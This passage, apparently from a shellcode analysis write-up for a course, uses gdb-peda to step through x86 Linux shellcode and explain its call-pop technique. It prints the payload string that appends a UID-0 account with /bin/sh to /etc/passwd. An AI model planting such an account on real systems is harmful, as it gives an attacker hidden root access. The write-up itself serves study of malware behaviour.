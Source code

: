 ```nasm
   0x0804a078 <+56>:	ins    BYTE PTR es:[edi],dx
   0x0804a079 <+57>:	data16 jb 0x804a0ae
   0x0804a07c <+60>:	inc    ebp
   0x0804a07d <+61>:	cmp    dh,BYTE PTR [eax]
   0x0804a07f <+63>:	cmp    dh,BYTE PTR [eax]
   0x0804a081 <+65>:	cmp    bh,BYTE PTR [edx]
   0x0804a083 <+67>:	das    
   0x0804a084 <+68>:	cmp    ch,BYTE PTR [edi]
   0x0804a086 <+70>:	bound  ebp,QWORD PTR [ecx+0x6e]
   0x0804a089 <+73>:	das    
   0x0804a08a <+74>:	jae    0x804a0f4
   0x0804a08c <+76>:	or     bl,BYTE PTR [ecx-0x75]
   0x0804a08f <+79>:	push   ecx
   0x0804a090 <+80>:	cld    
   0x0804a091 <+81>:	push   0x4
   0x0804a093 <+83>:	pop    eax
   0x0804a094 <+84>:	int    0x80
   0x0804a096 <+86>:	push   0x1
   0x0804a098 <+88>:	pop    eax
   0x0804a099 <+89>:	int    0x80
   0x0804a09b <+91>:	add    BYTE PTR [eax],al
End of assembler dump.
gdb-peda$ 
```
Our call is "call 0x804a08d" at address 0x0804a066.  Looking at the called address, we see the same issue where the instruction addresses dont seem to fit into what we are expecting.  We can view instructions for the specific address that is being called with the x/i command.  Let's just grab a random number of instructions and see if it catches back up with the proper instructions.
```nasm
gdb-peda$ x/6i 0x804a08d
   0x804a08d <code+77>:	pop    ecx
   0x804a08e <code+78>:	mov    edx,DWORD PTR [ecx-0x4]
   0x804a091 <code+81>:	push   0x4
   0x804a093 <code+83>:	pop    eax
   0x804a094 <code+84>:	int    0x80
   0x804a096 <code+86>:	push   0x1
gdb-peda$
```
As expected, the push 0x4 is where we are lined back up.. The next instructions are:
```nasm
  pop ecx
  mov edx, DWORD PTR [ecx-0x4]
```
We are seeing the call-pop technique here used to push an address on the stack that most likely contains an important value to the shellcode.  Let's take a look at what that value is.. We are planning to write to a file so I am assuming it will be the string for our /etc//passwd file we opened.
```
gdb-peda$ x/s 0x804a06b
0x804a06b <code+43>:	"SLAE:AzrcnzPYlfr2E:0:0::/:/bin/sh\nY\213Q\374j\004X̀j\001X̀"
```
There we have it, the entry we will be appending to /etc/passwd.  So, now we know that we have our file descriptor from the open saved in EBX, and the string we are appending saved in ECX.
